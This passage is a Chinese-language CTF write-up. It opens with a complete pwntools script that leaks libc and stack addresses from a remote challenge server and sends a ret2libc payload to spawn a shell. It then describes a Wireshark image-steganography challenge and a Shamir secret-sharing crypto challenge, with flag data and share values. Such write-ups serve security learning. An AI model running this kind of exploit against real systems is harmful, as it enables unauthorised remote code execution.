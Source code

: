 ```python
from pwn import *

p = remote('116.85.48.105',5005)
p.recvuntil('username:')
p.send('1'* 40)

t = p.recvuntil('Plea')
libcleak = u32(t[0x33:0x37])  
stackButtom =  u32(t[0x2f:0x33])
stack = stackButtom + 0x18
libcbase = libcleak - 0x00065465
# print hex(stack)
# print hex(libcbase)

p.recvuntil('password:')
p.sendline('-1')
p.recvuntil('):')
binsh = libcbase + 0x0015902B
# execve = libcbase + 0x000AF590
system = libcbase + 0x0003A940
payload = p32(stack)*((0x4c+0x18)/4 - 1) + p32(system) + p32(binsh) *4
p.send(payload)
p.interactive()
```

### Wireshark
找 HTTP 流量, 可以找到几张图, 有一张图损坏无法打开, 发现 crc 不对, 修复一下就是秘钥,  
得到 `57pmYyWt`, 然而不知道是啥隐写, 最后通过流量记录发现访问过 `http://tools.jb51.net/`,  
可以在上面找到一个图片隐写, 把图片都试了一下最后发现那张比较大的图片可以解出 flag,  
```
flag+AHs-44444354467B5145576F6B63704865556F32574F6642494E37706F6749577346303469526A747D+AH0-
```
把里面的 `44444354467B5145576F6B63704865556F32574F6642494E37706F6749577346303469526A747D`, 解个 hex 就拿到 flag.  

### 联盟决策大会
Shamir 秘密分享方案, 密码学刚学, 在 [wiki](https://en.wikipedia.org/wiki/Shamir%27s_Secret_Sharing) 上有个挺好的脚本,  
题目相当于用两次 Shamir, 这样就可以让两个组织都到才能解密, 把脚本照着这个思路稍微改一下就能拿到 flag,  
```python
from __future__ import division
from __future__ import print_function

import random
import functools

# 12th Mersenne Prime
# (for this application we want a known prime number as close as
# possible to our security level; e.g.  desired security level of 128
# bits -- too large and all the ciphertext is large; too small and
# security is compromised)
_PRIME = 0xC53094FE8C771AFC900555448D31B56CBE83CBBAE28B45971B5D504D859DBC9E00DF6B935178281B64AF7D4E32D331535F08FC6338748C8447E72763A07F8AF7
# 13th Mersenne Prime is 2**521 - 1

# ... 省略

t1 = (1,0x30A152322E40EEE5933DE433C93827096D9EBF6F4FDADD48A18A8A8EB77B6680FE08B4176D8DCF0B6BF50000B74A8B8D572B253E63473A0916B69878A779946A)
t2 = (2,0x1B309C79979CBECC08BD8AE40942AFFD17BBAFCAD3EEBA6B4DD652B5606A5B8B35B2C7959FDE49BA38F7BF3C3AC8CB4BAA6CB5C4EDACB7A9BBCCE774745A2EC7)
t3 = (4,0x1E2B6A6AFA758F331F2684BB75CC898FF501C4FCDD91467138C2F55F47EB4ED347334FAD3D80DB725ABF6546BD09720D5D5F3E7BC1A401C8BD7300C253927BBC)
```